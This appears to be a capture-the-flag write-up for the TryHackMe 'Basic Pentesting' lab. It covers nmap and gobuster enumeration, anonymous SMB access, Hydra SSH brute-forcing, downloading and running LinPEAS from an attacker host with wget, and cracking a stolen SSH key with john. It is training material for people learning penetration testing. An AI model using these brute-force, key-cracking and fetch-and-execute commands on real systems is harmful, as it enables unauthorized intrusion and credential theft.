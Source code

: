 # Basic Pentesting Writeup (TryHackMe)

## Challenge Overview

This challenge simulates a real-world penetration test scenario where the attacker must gain access to a machine through open services, enumerate for sensitive data, and escalate privileges to capture the final flag. It involves techniques like directory fuzzing, SMB enumeration, password brute-forcing, and leveraging exposed SSH keys for privilege escalation.

---

## Enumeration

Started the challenge by running an Nmap scan to enumerate open ports and identify services:

```bash
sudo nmap <target-ip> -sS -T4 -A
```

![2025-05-06_14-00](https://github.com/user-attachments/assets/9e66d88d-4275-4d90-a383-ad2a8a8c3191)

Discovered a website running on port 80.

## Web Enumeration

Used `gobuster` to find hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-06_14-05](https://github.com/user-attachments/assets/03db77ae-d3b5-4de7-884d-22fe38dfa4e0)

Found the `/development` subdirectory. It contained two `.txt` files that mentioned the development of the website and referenced an SMB share.

![2025-05-06_14-05_1](https://github.com/user-attachments/assets/4a94e1bf-8b4f-49a5-aaf4-79fa1d949960)
![2025-05-06_14-06](https://github.com/user-attachments/assets/42d7e777-72b6-4c88-9318-8bb7b172898a)
![2025-05-06_14-07](https://github.com/user-attachments/assets/bde4d3ef-52b8-45eb-a89f-c80324b11d7c)

## SMB Enumeration

Accessed the SMB share using `smbclient` with anonymous login:

```bash
smbclient -L //<target-ip>
smbclient //<target-ip>/Anonymous 
```

Retrieved a `.txt` file mentioning two users: `jan` and `kay`.

![2025-05-06_14-37](https://github.com/user-attachments/assets/06cb2416-a754-4bd0-89a1-05e7115aced2)

## SSH Brute Force

Used Hydra to brute-force SSH credentials for `jan`:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target-ip> ssh
```

![2025-05-06_14-45](https://github.com/user-attachments/assets/f3c9f9f3-ccf8-4e0f-b9e1-5d5fbf368439)

Cracked password: `armando`

## Privilege Escalation (to kay)

After logging in as `jan`, manual enumeration began. Encountered several dead-ends:

* `sudo -l` – no permissions
* Checked SUID binaries – no immediate vector
* `wget` didn't work initially

Found that `/tmp` was writable. Hosted LinPEAS on attacker machine via Python server:

```bash
python3 -m http.server 8000
```

Then on target:

```bash
cd /tmp
wget http://<attacker-ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## 🗝SSH Key Exploit

LinPEAS revealed an exposed private key in `/home/kay/.ssh/id_rsa`. Copied it and cracked it:

![2025-05-06_15-57_1](https://github.com/user-attachments/assets/b43735a1-b605-45c0-aed9-acc913958d16)

Extracted hash with `ssh2john`:

```bash
ssh2john id_rsa
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![2025-05-06_15-57](https://github.com/user-attachments/assets/2f4ef426-9cb5-4277-ac58-e2ef0da54756)

Password: `beeswax`

Used the private key to SSH into kay's account:

```bash
ssh -i id_rsa kay@<target-ip>
```

Accessed `pass.bak`:

```bash
cat pass.bak
```

![2025-05-06_15-58](https://github.com/user-attachments/assets/dda629b3-c579-4f68-827d-854b0826680e)

✅ Final flag retrieved.

---

## 🧾 Conclusion

![2025-05-06_15-59](https://github.com/user-attachments/assets/dec757bf-bea6-431b-aebb-d989648cd122)

This room tested core skills in enumeration, brute-forcing, and privilege escalation:

* Gobuster revealed a hidden dev directory
* SMB share exposed usernames
* SSH brute-force using Hydra
* Privilege escalation via exposed SSH key

The challenge emphasized how poor access control, default credentials, and leftover dev artifacts can lead to full system compromise.

